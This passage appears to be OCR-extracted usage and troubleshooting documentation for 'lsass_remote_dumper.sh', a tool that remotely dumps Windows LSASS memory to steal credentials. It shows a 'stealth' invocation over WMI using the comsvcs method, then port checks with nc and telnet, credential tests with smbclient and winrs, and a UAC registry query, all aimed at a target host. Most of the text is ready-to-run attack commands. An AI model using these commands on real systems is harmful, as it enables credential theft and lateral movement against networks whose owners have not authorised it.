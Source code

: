 # Stealth remote operation with delays
./lsass_remote_dumper.sh -r -t target -u admin -p "password" \
  -x wmi -m comsvcs -s -c -q --timeout 120


Troubleshooting Remote Operations

Common Remote Issues

Connection Problems

Bash


# Test basic connectivity
ping -c 3 192.168.1.100
telnet 192.168.1.100 445

# Test specific services
nc -zv 192.168.1.100 135  # WMI
nc -zv 192.168.1.100 5985 # WinRM
nc -zv 192.168.1.100 22   # SSH


Authentication Failures

Bash


# Verify credentials manually
smbclient -L //192.168.1.100 -U admin%password

# Test WinRM authentication
winrs -r:192.168.1.100 -u:admin -p:password "whoami"

# Check domain authentication
smbclient -L //server.corp.com -U CORP\\admin%password


Permission Issues

Bash


# Verify administrative access
./lsass_remote_dumper.sh -r -t 192.168.1.100 -u admin -p "password" \
  -x wmi -m comsvcs -v

# Check UAC settings on target
# reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA
